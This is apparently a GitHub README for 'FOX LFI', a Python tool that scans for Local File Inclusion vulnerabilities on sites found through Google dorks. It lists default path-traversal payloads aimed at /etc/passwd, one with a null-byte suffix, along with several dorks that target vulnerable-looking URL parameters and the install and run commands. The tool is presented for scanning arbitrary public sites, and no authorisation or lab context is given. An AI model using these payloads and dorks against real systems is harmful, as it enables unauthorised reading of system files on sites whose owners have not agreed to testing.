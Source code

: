 <a name="readme-top"></a>


<br />
<div align="center">
  <a href="https://github.com/othneildrew/Best-README-Template">
    <img src="https://i.imgur.com/PlZ6PEH.png" alt="Logo">
  </a>

  <h3 align="center">FOX LFI AUTOMATIC TOOLS🦊</h3>

  <p align="center">
    The FOX LFI Scanner is a powerful tool designed for scanning Local File Inclusion vulnerabilities.
  </p>
</div>

## Google Dork
Automatically search for vulnerabilities using google dork

```bash
dorks.txt
```
## Payloads
This uses separate payloads, if you want to add a custom payload, go to:

```bash
payloads.txt
```

Default payloads:
```bash
/etc/passwd
../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../etc/passwd
/..././..././..././..././..././..././..././etc/passwd%00
../../../../../../../..//etc/passwd
```

### Dork

```bash
inurl:/squirrelcart/cart_content.php?cart_isp_root=
inurl:index2.php?to=
inurl:index.php?load=
inurl:home.php?pagina=
```
## Installation

Clone 
```bash
git clone https://github.com/sandiskyy/Lfi-fox.git
```
```bash
cd Lfi-fox
```
```bash
pip3 install -r requirements.txt
```

## Usage
```bash
python3 Lfi-fox.py
```
## Note
Using Bing Still Not Working


